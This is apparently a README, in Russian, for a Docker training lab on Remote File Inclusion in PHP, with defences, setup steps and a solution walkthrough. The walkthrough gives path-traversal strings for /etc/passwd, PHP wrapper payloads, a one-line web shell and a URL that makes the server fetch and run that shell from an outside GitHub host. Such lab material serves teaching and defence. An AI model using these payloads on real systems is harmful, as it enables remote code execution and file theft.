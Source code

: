 ## Описание уязвимости
Данная уязвимость позволяет включать в ответ на запрос удалённые файлы(а в некоторых случаях даже их исполнять). Иногда, если удалённые файлы включаются в ответ на запрос RFI может легко перетекать в SSRF.
Данная уязвимость тесно связана с LFI. В большинстве случаев RFI возможна тогда и только тогда, когда возможна и LFI.
Функции в разных языках, которые могут приводить к LFI:
- **PHP**: `include()`/`include_once()`, `file_get_contents()`
- **Java**: `import`
- **.NET**: `@Html.RemotePartial()`, `include`
## Способы защиты
В большинстве случаев, необходимо убрать у пользователей возможность взаимодействовать с файловой системой, но если этого сделать нельзя, то тогда можно попытаться использовать следующие механизмы защиты. 
- Использовать те же самые методы защиты, что и при LFI, так как уже было сказано, что они тесно связаны
- Необходимо выставлять значение переменных allow_url_fopen  или allow_url_include на off в файле php.ini
- Использование WAF
- Использование white листов
- Проверки на содержимое GET-параметров, используемых в уязвимых функциях
## Запуск приложения
Для запуска приложения необходимо:
- скачать репозиторий
- в файле \/etc\/hosts прописать: `10.90.0.110 lang.local`, где вместо `10.90.0.110` должно быть записано содержимое переменной NGINX_IP из файла .env
- зайти в директорию с файлом docker-compose.yaml
- в случае, если необходимо поменять значения переменных окружений в файле .env(данный файл содержит переменные NET_IP, FPM_IP, NGINX_IP, FLAG, где NET_IP задаёт значение IP адреса сети rfi_vulnerability_mynetwork, FPM_IP задаёт IP-адрес контейнера c php-fpm, NGINX_IP задаёт IP адрес контейнера с nginx, а FLAG задаёт флаг; в случае, если на устройстве есть сетевой интерфейс с IP-адресом из файла .env имеет смысл поменять адреса в соответствие с RFC 791)
- в случае, если не нужно менять параметры, зайти из терминала в директорию с конфигурационными файлами и прописать:
```shell
docker-compose up
```
- для завершения необходимо в терминале в той же папке, что и docker-compose.yaml прописать docker-compose down
- в случае, если при новом запуске выводится ошибка подобная `ERROR: Network "rfi_vulnerability_mynetwork" needs to be recreated - IPAM option`, необходимо прописать: `docker network rm rfi_vulnerability_mynetwork` и после этого перейти к шагу 4
- можно также менять значения переменных файле php.ini(например прописав `disable_functions = exec,passthru,shell_exec,system`)
## Описание уязвимости в приложении
Необходимо получить доступ к файлу \/flag.txt.
В данном приложении есть возможность выбора языка, на котором отобразится текст страницы. Реализована данная возможность с помощью передачи GET параметра lang в HTTP запросе к index.php. У пользователя есть возможность обращаться только к файлам index.php и style.css.
Приложение получает GET параметр, обрабатывая его при этом(происходит циклическая проверка на наличие ..\/, различных обёрток и схем(с помощью регулярных выражений)). После этого происходит включение файла, находящегося по пути из переменной $path_to_lang_file:
```php
<?php
	include $path_to_lang_file;
	echo $text;
?>
```
Последовательность действий:
- проверить на наличие уязвимостей типа LFI, path traversal.
- попытаться включить какую-то страницу, например `http://lang.local/`
- создать файл с каким-то php кодом и расположить его на сервере с белым IP, либо создать файл на github
- в качестве значения GET параметра выставить ссылку на этот файл

## Решение
Первые шаги почти такие же, как и в LFI стенде:
В качестве значений GET параметров используем следующие значения:
```http
../../../../../../../../../../../../etc/passwd
..././..././..././..././..././..././..././etc/passwd
....//....//....//....//....//....//....//....//etc/passwd
%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2Fetc%2Fpasswd
%252E%252E%252F%252E%252E%252F%252E%252E%252F%252E%252E%252F%252E%252E%252F%252E%252E%252F%252E%252E%252F%252E%252E%252F%252E%252E%252Fetc%252Fpasswd
```
В результате будет выводиться следующее:
![](./img/photo_5269685033084515456_y.jpg)
Это может навести на мысль о том, что значение заголовка фильтруется.
Можно использовать php обёртки и различные схемы для получения index.php в base64:
`php://filter/convert.base64-encode/resource=./index.php `, `expect://id`, `data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id`.
![](./img/photo_5269685033084515457_y.jpg)
Но к сожалению обёртки не работают.
Проверим что произойдёт, если в качестве значения GET-параметра передать следующую ссылку:
```http
http://lang.local
```
![](./img/photo_5269685033084515459_y.jpg)
Видно что в ответ на запрос, вернулся страница в странице. Это явно намекает о наличии RFI.
Для эксплуатации создадим файл на github со следующим содержимым:
```php
<?php system($_GET['cmd']);?>
```
ИЛИ
```php
$content = file_get_contents($_GET['file']);
$base64Content = base64_encode($content);
echo $base64Content;
```
Второй payload можно использовать в том случае, если `system`и остальные похожие функции отключены в php.ini.
В конечном итоге можно использовать следующие ссылки:
- для первой полезной нагрузки
```http
https://raw.githubusercontent.com/Truncheon-eng/Remote-File-Inclusion/refs/heads/main/payloads/payload_1.php
```
- для второй полезной нагрузки
```http
https://raw.githubusercontent.com/Truncheon-eng/Remote-File-Inclusion/refs/heads/main/payloads/payload_2.php
```
В итоге в поисковую строку передаём:
```http
http://lang.local/index.php?lang=https://raw.githubusercontent.com/Truncheon-eng/Remote-File-Inclusion/refs/heads/main/payloads/payload_1.php&cmd=cat%20/flag.txt
```
Получаем флаг из \/flag.txt.
![](./img/photo_5269685033084515458_y.jpg)
[LFI_with_sess_poisoning](https://github.com/Truncheon-eng/LFI_with_sess_poisoning)
